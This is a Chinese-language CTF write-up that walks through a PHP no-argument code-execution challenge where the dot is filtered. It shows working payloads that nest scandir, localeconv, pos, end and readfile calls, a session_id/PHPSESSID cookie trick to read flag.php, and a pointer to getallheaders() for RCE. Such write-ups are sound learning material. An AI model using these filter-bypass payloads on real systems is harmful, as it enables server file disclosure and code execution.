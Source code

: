 那么scandir('.')在linux中，点表示当前目录。

```php
<?php var_dump(scandir('.')); ?>
```

![image-20210816173108083](https://tcakalr.gitee.io/tc/image-20210816173108083.png)

这就是可以利用的东西，但是很明显.被正则过滤了。所以就要利用到一个函数`localeconv()`。

这就是前面前置知识提到的函数，它返回当地金融信息，其中包含了点

![image-20210816173249038](https://tcakalr.gitee.io/tc/image-20210816173249038.png)

我们要取数组中的第一个，就要用到pos()或current()函数。

![image-20210816173640323](https://tcakalr.gitee.io/tc/image-20210816173640323.png)

然后发现flag在最后一个，要取数组中最后一个就要用到end函数。

```
?code=var_dump(end(scandir(pos(localeconv())));
```

最后是读取，show_source()，highlight_file()，read()都可以。

```
?code=var_dump(readfile(end(scandir(pos(localeconv())))));
```

![image-20210816174619801](https://tcakalr.gitee.io/tc/image-20210816174619801.png)

构造点还有其他方法。

利用localtime()中返回的秒数来构造点，点的aiisc码正好是46在60秒之 内，我们只需等到46秒时候就能将点给构造出来。

<img src="https://tcakalr.gitee.io/tc/image-20210816175356724.png" alt="image-20210816175356724" style="zoom:67%;" />

其他方法：利用session_id构造

**session_id()** 返回当前会话ID。   如果当前没有会话，则返回空字符串（`""`）

**session_start()** 会创建新会话或者重用现有会话。   如果通过 GET 或者 POST 方式，或者使用 cookie 提交了会话 ID，   则会重用现有会话

session_id的使用需要开启session，所以需要session_start()函数

所以就是是我们传入PHPSESSID，然后利用session_id()获取，但是session_id的使用需要开启session，所以需要session_start()函数，就是说session_id(session_start())执行后就变成了PHPSESSID，然后嵌套上show_source()函数，就变成了show_source(PHPSESSID)；，然后PHPSESSID赋值了zoeyflag，所以可以读取flag出来。

```
show_source(session_id(session_start()));
```

在cookie处传参

```
PHPSESSID=flag.php
```

利用 getallheaders() 来获取参数RCE
